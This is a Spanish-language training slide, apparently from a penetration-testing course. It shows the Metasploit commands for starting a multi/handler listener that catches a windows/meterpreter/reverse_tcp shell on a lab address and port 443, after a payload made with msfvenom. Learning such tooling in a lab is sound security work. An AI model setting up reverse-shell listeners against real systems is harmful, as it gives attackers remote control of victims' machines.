

Servidor del atacante
Con msfvenom solo se crea el payload, falta crear el listener que permitirá aceptar la conexión reversa de la explotación.

Para ello en una terminal:

sudo msfconsole use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.193.128
set LPORT 443
exploit